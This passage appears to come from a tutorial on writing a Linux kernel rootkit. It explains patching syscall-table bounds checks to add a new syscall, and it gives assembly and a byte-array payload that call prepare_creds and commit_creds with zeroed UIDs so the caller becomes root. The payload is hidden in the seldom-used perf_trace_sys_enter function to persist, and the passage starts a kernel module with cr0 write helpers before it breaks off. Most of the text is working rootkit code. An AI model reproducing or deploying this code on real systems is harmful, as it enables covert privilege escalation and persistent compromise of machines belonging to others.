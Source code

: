 The two `cmp` instructions are the ones we need to patch. We'll modify the first one to `cmp rdi, 0x14f` and the second one to `cmp rdi, 0x150`. Now, the very next step is to develop a function that makes the caller become root. To achieve this, I will draw inspiration from the basic approach in kernel exploitation: leveraging `prepare_creds` to allocate a `cred` struct and using `commit_creds` to ensure that this new struct is applied. Following the call to `prepare_creds`, I will set the different UIDs to zero. The following code represents my simple implementation for gaining root access:

```asm
0xffffffff810019f0 <+0>:     call   0xffffffff8106a410 <prepare_creds>
0xffffffff810019f5 <+5>:     mov    QWORD PTR [rax+0x4],0x0
0xffffffff810019fd <+13>:    mov    QWORD PTR [rax+0xc],0x0
0xffffffff81001a05 <+21>:    mov    QWORD PTR [rax+0x14],0x0
0xffffffff81001a0d <+29>:    mov    rdi,rax
0xffffffff81001a10 <+32>:    call   0xffffffff8106a090 <commit_creds>
0xffffffff81001a15 <+37>:    xor    eax,eax
0xffffffff81001a17 <+39>:    ret
```

We have a method to add a syscall, and we have the code to be executed by this syscall. The final step is to identify where we can place the payload. To ensure our rootkit continues to function even if unloaded, it would be beneficial to find a function in the kernel that is not frequently called. We can then modify this function with our payload, ensuring persistence in the kernel until a reboot. After some research, I found the `perf_trace_sys_enter` function which seems not called...but is still present. It is really cool for us. All is ready to cook so let's code!

```c
#include <asm/processor-flags.h>
#include <asm/syscall.h>
#include <asm/unistd.h>
#include <linux/cred.h>
#include <linux/init.h>
#include <linux/kallsyms.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/sched.h>

//
//  This array correspond to the following code:
//
//    0xffffffff810019f0 <+0>:     call   0xffffffff8106a410 <prepare_creds>
//    0xffffffff810019f5 <+5>:     mov    QWORD PTR [rax+0x4],0x0
//    0xffffffff810019fd <+13>:    mov    QWORD PTR [rax+0xc],0x0
//    0xffffffff81001a05 <+21>:    mov    QWORD PTR [rax+0x14],0x0
//    0xffffffff81001a0d <+29>:    mov    rdi,rax
//    0xffffffff81001a10 <+32>:    call   0xffffffff8106a090 <commit_creds>
//    0xffffffff81001a15 <+37>:    xor    eax,eax
//    0xffffffff81001a17 <+39>:    ret
//
static char rootkit_sys_root[] = { 0xe8, 0x1b, 0x8a, 0x06, 0x00, 0x48, 0xc7, 0x40, 0x04, 0x00, 0x00, 0x00, 0x00, 0x48, 0xc7, 0x40, 0x0c, 0x00, 0x00, 0x00, 0x00, 0x48, 0xc7, 0x40, 0x14, 0x00, 0x00, 0x00, 0x00, 0x48, 0x89, 0xc7, 0xe8, 0x7b, 0x86, 0x06, 0x00, 0x31, 0xc0, 0xc3 };

//
// Helpers to interract with the cr0 register
//
static inline unsigned long __read_cr0(void) {
	unsigned long val;
	asm volatile("mov %%cr0,%0\n\t" : "=r" (val), "=m" (__force_order));
	return val;
}

static inline void __write_cr0(unsigned long val) {
	asm volatile("mov %0,%%cr0": : "r" (val), "m" (__force_order));
}

```